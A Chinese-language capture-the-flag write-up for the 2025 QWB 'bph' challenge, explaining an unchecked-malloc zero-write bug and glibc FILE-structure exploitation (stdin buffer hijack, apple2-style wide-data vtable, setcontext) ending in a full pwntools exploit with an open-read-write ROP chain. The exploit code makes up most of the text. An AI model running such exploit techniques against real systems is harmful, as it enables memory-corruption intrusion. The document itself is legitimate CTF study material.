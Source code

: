 ```yaml
---
title: 2025qwb_bph
date: 2025-10-22 16:47:03
categories: 2025-qwb
tags: houseof
---
```


> 最近真的很少打CTF，被暴打的没啥信心了，而且很多题逆向太多了，懒得看

# 漏洞点

漏洞出现在申请堆块时没有检查malloc是否成功，而malloc失败固定返回0
这里填size的时候可以填写任意地址，就可以得到`0 + 任意地址 - `置零

![set_zero](./2025qwb-bph/set_zero.png)

还有通过前面的read函数可以配合printf泄漏libc地址或者是其他地址
这里决定打libc，所以拿libc地址

# 利用手法

这里的置零要给`_IO_2_1_stdin_->file->_IO_buf_base`用
这样可以在fgets得到一个向`_IO_2_1_stdin_`写的机会
因为fgets中有一个`read(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);`

![fgets_read](./2025qwb-bph/fgets_read.png)

然后再重复就可以完全控制_IO_buf_base，将其指向`_IO_2_1_stdout_`，打IO
所以我们就可以获得一个可控rdi的任意地址跳转(这部分属于传统apple2)

由于高版本的`setcontext`变成了使用rdx，我们需要一个将控制rdi转换为rdx的办法
这里可以走`_IO_switch_to_wget_mode`来将控制rdx，原因不仅是这个函数可以帮我们用rdi控rdx
更重要的原因是它间接属于`_IO_wfile_jumps`的跳表中(它被`IO_wfile_seekoff`调用)

另外`_IO_wfile_seekoff`中还对第四个参数`mode`进行检查，要求`mode`不为零才可以

以及可以看到需要满足
`fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base || _IO_in_put_mode (fp)`
才可以执行到_IO_switch_to_wget_mode，这里我没有特意调整也满足了，不过可以留意一下

![_IO_wfile_seekoff](./2025qwb-bph/_IO_wfile_seekoff.png)

最终实现ORW读flag

# exp
```python
from pwn import *
from filep import Filep

context.log_level = 'debug'
context.arch = 'amd64'
libc = ELF('./libc.so.6')

io = remote('0.0.0.0', 70)

io.sendafter(b'token: ', b'a' * 0x28)
io.recvuntil(b'a' * 0x28)
libc.address = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0xADDAE
print(hex(libc.address))

stdin = Filep(libc.address + 0x2038E0)
stdout = Filep(libc.address + 0x2045C0)
stderr = Filep(libc.address + 0x2044E0)

io.sendlineafter(b'Choice', b'1')
pause()
io.sendlineafter(b'Size', (str(stdin._IO_buf_base['address'] + 1)).encode())
pause()
io.sendafter(b'Content', b'a')

# stderr is for rop
# stdout is for IO_hack
pause()
io.send(p64(stderr.address - 2) * 4 + p64(stdout.address + 0xE8))
pause()
io.sendlineafter(b'Choice', b'')
# 在这里非常的奇怪，我必须把回车和上面的输出分开，否则fgets会遇到奇怪的bug然后卡死

setcontext = libc.address + 0x4A99D
io_wfile_jumps = libc.address + 0x202228
io_switch_to_wget_mode = libc.address + 0x8AFC0

rax = libc.address + 0xdd237
rdi = libc.address + 0x10F78B
rsi = libc.address + 0x110A7D
rcx = libc.address + 0xA877E
rdx = libc.address + 0xB503C
syscall = libc.address + 0x98FB6

fake_stderr = flat(
    {
        0x18 - 0x10: 0x0,
        0x20 - 0x10: p64(stderr.address - 0x10),
        0x88 - 0x10: p64(0x200),
        0xA0 - 0x10: p64(stdout.address + 0x50),
        0xA8 - 0x10: p64(rdi),
        0xE0 - 0x10: p64(stdout.address),
    },
    filler=b'\x00',
    length=0xE0,
)

fake_stdout = flat(
    {
        0x0: 0xDEADBEEF,
        0x18: p64(setcontext),
        0x20: b'flag' + b'\x00' * 4,
        0x50: p64(0x0),
        0x58: p64(rsi),
        0x60: p64(stdout.address + 0x70),
        0x68: p64(syscall),
        stdout._wide_data['offset']: p64(stderr.address - 0x10),
        stdout.vtable['offset']: p64(io_wfile_jumps + 0x10),
    },
    filler=b'\x00',
)

pause()
io.sendlineafter(b'Choice', b'2')
io.sendlineafter(b'Index: ', b'1\n' + fake_stderr + fake_stdout)

flag_addr = stdout.address + 0x20

pause()
rop = flat(
    rdi,
    -100,
    rsi,
    flag_addr,
    rdx,
    0x0,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x101,
    rcx,
    0x0,
    syscall,

    rdi,
    0x3,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x0,
    syscall,

    rdi,
    0x1,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x1,
    syscall,
)
io.send(rop)

io.interactive()

```






